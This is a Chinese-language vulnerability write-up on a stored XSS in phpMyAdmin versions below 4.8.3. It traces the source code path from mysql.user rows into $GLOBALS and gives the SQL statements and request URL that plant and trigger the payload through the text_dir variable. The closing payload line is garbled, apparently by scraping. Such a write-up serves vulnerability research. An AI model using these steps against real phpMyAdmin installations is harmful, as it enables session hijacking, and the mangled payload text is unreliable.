


Phpmyadmin \< 4.8.3 XSS
=======================

一、漏洞简介
------------

最近在审计phpmyadmin的时候发现了一个XSS漏洞，后来发现在版本大于4.8.3以后该漏洞被修复了。看了下之前公布的CVE，有个CVE和此漏洞很相似但没有漏洞细节，于是乎便有了这篇文章。

二、漏洞影响
------------

Phpmyadmin \< 4.8.3

三、复现过程
------------

在审计phpmyadmin时，我比较关注\$GLOBALS全局变量，该变量存储了本次请求的信息、phpmyadmin基本设置信息和phpmyadmin配置文件信息等。先看看/libraries/classes/Server/Privileges.php::3977的以下代码。

    foreach ($row as $key => $value) {
        $GLOBALS[$key] = $value;
    }

很明显，该处是\$GLOBALS的赋值操作，而\$row来自于对mysql.user表的查询结果，且\$user\_host\_condition可控，/libraries/classes/Server/Privileges.php::3966行

    public static function getDataForChangeOrCopyUser()
        {
            $queries = null;
            $password = null;

            if (isset($_REQUEST['change_copy'])) {
                $user_host_condition = ' WHERE `User` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_username']) . "'"
                    . ' AND `Host` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_hostname']) . "';";
                $row = $GLOBALS['dbi']->fetchSingleRow(
                    'SELECT * FROM `mysql`.`user` ' . $user_host_condition
                );

既然上述代码会将mysql.user中符合条件的行的列名和值写入\$GLOBALS中,我们便可通过添加mysql.user的列来往\$GLOBALS中写入任意键值。清楚思路后，我们看看哪里调用了Privileges.php的getDataForChangeOrCopyUser函数,发现在server\_privileges.php::178中对该函数有调用。

    list($queries, $password) = Privileges::getDataForChangeOrCopyUser();

这时我们来试试向\$GLOBALS中写一个\$GLOBALS\[\'xz\'\]=\'aliyun\'。进入mysql库，执行以下2条sql语句向user表添加xz字段，并插入一条数据。

    ALTER TABLE user ADD xz varchar(255);
    INSERT INTO `user` (`Host`, `User`, `Password`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Reload_priv`, `Shutdown_priv`, `Process_priv`, `File_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Show_db_priv`, `Super_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Execute_priv`, `Repl_slave_priv`, `Repl_client_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Create_user_priv`, `Event_priv`, `Trigger_priv`, `Create_tablespace_priv`, `ssl_type`, `max_questions`, `max_updates`, `max_connections`, `max_user_connections`, `plugin`, `authentication_string`, `xz`) VALUES ('127.0.0.1', 'test', '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', '0', '0', '0', '0', '', '', 'aliyun');

在/libraries/classes/Server/Privileges.php::3980下断点

    $serverVersion = $GLOBALS['dbi']->getVersion();

然后构造http://127.0.0.1/phpMyAdmin-4.8.2/server\_privileges.php?change\_copy=aa&old\_username=test&old\_hostname=127.0.0.1&mode=5
参数请求，change\_copy随便给个参数即可，mode必须大于4否则新添加的数据会被删除。

可以看到\$GLOBALS\[\'xz\'\]=\'aliyun\'已经成功赋值。

### 利用构造

有了可控的\$GLOBALS变量后，我们需要寻找触发点。要在一次请求便触发漏洞，公共页面是首选目标。通过全局搜索\$GLOBALS变量，发现在libraries/classes/Navigation/NavigationTree.php::1272的renderDbSelect函数中有使用未过滤的\$GLOBALS变量。

    $retval .= '
';
            $retval .= '<form action="index.php">';
            $retval .= Url::getHiddenFields($url_params);
            $retval .= '<select name="db" class="hide" id="navi_db_select">'
                . '<option value="" dir="' . $GLOBALS['text_dir'] . '">'

继续搜索调用renderDbSelect函数地方，发现libraries\\classes\\Navigation\\Navigation.php::62的getDisplay函数。

    public function getDisplay()
        {
            /* Init */
            $retval = '';
            $response = Response::getInstance();
            if (! $response->isAjax()) {
                $header = new NavigationHeader();
                $retval = $header->getDisplay();
            }
            $tree = new NavigationTree();
            if (! $response->isAjax()
                || ! empty($_REQUEST['full'])
                || ! empty($_REQUEST['reload'])
            ) {
                if ($GLOBALS['cfg']['ShowDatabasesNavigationAsTree']) {
                    // provide database tree in navigation
                    $navRender = $tree->renderState();
                } else {
                    // provide legacy pre-4.0 navigation
                    $navRender = $tree->renderDbSelect();

继续搜索实例化Naviagtion类并且调用了getDisplay函数的地方，发现libraries\\classes\\Header.php::440的getDisplay函数有调用。

    public function getDisplay()
        {
            $retval = '';
            ...(省略)
                    if ($this->_menuEnabled && $GLOBALS['server'] > 0) {
                        $nav = new Navigation();
                        $retval .= $nav->getDisplay();
                    }

搜索实例化Header-\>GetDisplay的方法，发现\\libraries\\classes\\Response.php::100的构造方法中实例化了Header类，而\$this-\_header又在\_getDisplay中被调用。\_getDisplay被\_htmlResponse调用，\_htmlResponse在response函数中被调用。

    private function __construct()
        {
            if (! defined('TESTSUITE')) {
                $buffer = OutputBuffering::getInstance();
                $buffer->start();
                register_shutdown_function(array($this, 'response'));
            }
            $this->_header = new Header();
            $this->_HTML   = '';
            $this->_JSON   = array();

\\libraries\\classes\\Response.php::266行

    private function _getDisplay()
        {
            // The header may contain nothing at all,
            // if its content was already rendered
            // and, in this case, the header will be
            // in the content part of the request
            $retval  = $this->_header->getDisplay();
            $retval .= $this->_HTML;
            $retval .= $this->_footer->getDisplay();
            return $retval;
        }

\\libraries\\classes\\Response.php::279行

    private function _htmlResponse()
        {
            echo $this->_getDisplay();
        }

\\libraries\\classes\\Response.php::438行

    public function response()
        {
            chdir($this->getCWD());
            $buffer = OutputBuffering::getInstance();
            if (empty($this->_HTML)) {
                $this->_HTML = $buffer->getContents();
            }
            if ($this->isAjax()) {
                $this->_ajaxResponse();
            } else {
                $this->_htmlResponse();
            }
            $buffer->flush();
            exit;
        }

这里注意\_\_construct中的register\_shutdown\_function函数，看php
manual，意思是说当脚本运行结束或遇到exit后会执行该response函数，**意思就是说只要哪里实例化了Response类，在程序运行结束后就会执行response函数**。真好，回到server\_privileges.php::34行，发现有实例化Response。

    $response = Response::getInstance();
    $header   = $response->getHeader();
    $scripts  = $header->getScripts();

拥有以上调用链后，只需要控制\$GLOBAS的键为text\_dir,值为XSS
payload即可，进入mysql库，执行以下sql语句修改列名xz为text\_dir，并修改数据为XSS
Payload。

    ALTER TABLE `user` CHANGE `xz` `text_dir` VARCHAR(255) CHARACTER SET utf8 COLLATE utf8_bin NULL DEFAULT NULL;
    UPDATE `user` SET `text_dir` = '\"><option dir=\"' WHERE `user`.`Host` = '127.0.0.1' AND `user`.`User` = 'test';

构造https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/69c5e770161c4eaeb6d839977209edf2.png\"
alt=\"3.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>成功触发XSS

参考链接
--------

> https://xz.aliyun.com/t/7797
